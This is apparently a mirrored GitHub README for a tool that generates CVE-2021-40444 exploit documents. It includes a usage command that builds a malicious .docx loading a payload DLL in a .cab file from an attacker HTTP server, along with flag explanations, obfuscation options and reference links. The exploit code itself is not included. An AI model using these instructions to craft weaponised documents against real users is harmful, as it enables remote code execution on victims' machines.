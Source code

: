 # CVE-2021-40444

null

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/H0j3n](https://github.com/H0j3n) |
| Url      | [https://github.com/H0j3n/CVE-2021-40444](https://github.com/H0j3n/CVE-2021-40444)                                               |
| Stars    | 10                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve-2021-40444

</details>

## Readme

# CVE-2021-40444

## Usage

Ensure to run `setup.sh` first as you will need few directories. Once you have
run the script, you should be able to run `gen.py` with the example given:-

```python
# Usage
python3 gen.py -d document/Sample.docx -p payload/payload.dll -i "http://10.10.10.10" -t html/template.html -c payload.cab -f nothing.inf -r Sample2.docx -obf 3

# Flag
-d -> Our .docx file that already been modified with Bitmap Object whether in header, document or footer
-i -> IP Address
-p -> Payload (.dll)
-t -> HTML File with Javascript
-r -> Rename the output of modified .docx 
-c -> Rename the output of patched .cab
-f -> Rename the output of .inf 
-obf -> Extra : Comes with 3 mode (HTML Entity, UTF-16BE or Both)
-v -> Increase output verbosity
```

## Notes

1. The location of `http.server` will be in `web` directory. This directory will
   have 3 files:-

- .cab
- .html
- .docx


### Without Verbose

![without_verbose](https://github.com/H0j3n/CVE-2021-40444/blob/main/src/without_verbose.png)

### With Verbose

![with_verbose](https://github.com/H0j3n/CVE-2021-40444/blob/main/src/with_verbose.png)

## Disclaimer

This repository is for educational purpose only and not intended to be used in
the wild for bad intention. Any illegal use of this repo is strictly at your own
responsibilty and risk.

## References

1. https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-40444
2. https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-40444
3. https://github.com/klezVirus/CVE-2021-40444
4. https://github.com/lockedbyte/CVE-2021-40444
5. https://trendmicro.com/en_us/research/21/i/remote-code-execution-zero-day--cve-2021-40444--hits-windows--tr.html
6. https://tenable.com/blog/microsoft-s-september-2021-patch-tuesday-addresses-60-cves-cve-2021-40444
7. https://news.sophos.com/en-us/2021/09/14/big-office-bug-squashed-for-september-2021s-patch-tuesday/
8. https://huntress.com/blog/cybersecurity-advisory-hackers-are-exploiting-cve-2021-40444
9. https://microsoft.com/security/blog/2021/09/15/analyzing-attacks-that-exploit-the-mshtml-cve-2021-40444-vulnerability/
10. https://xret2pwn.github.io/CVE-2021-40444-Analysis-and-Exploit/
11. https://blog.sunggwanchoi.com/remote-template-injection/
12. https://youtube.com/watch?v=dgdx3QqPCuA
13. https://businessinsights.bitdefender.com/technical-advisory-zero-day-vulnerability-in-microsoft-mshtml-allows-remote-code-execution



## Get the content

```
git clone https://github.com/H0j3n/CVE-2021-40444
cd CVE-2021-40444
```

{% embed url="https://github.com/H0j3n/CVE-2021-40444" %}

<figure><img src="https://avatars.githubusercontent.com/u/51261763?v=4" alt=""><figcaption><p>H0j3n</p></figcaption></figure>
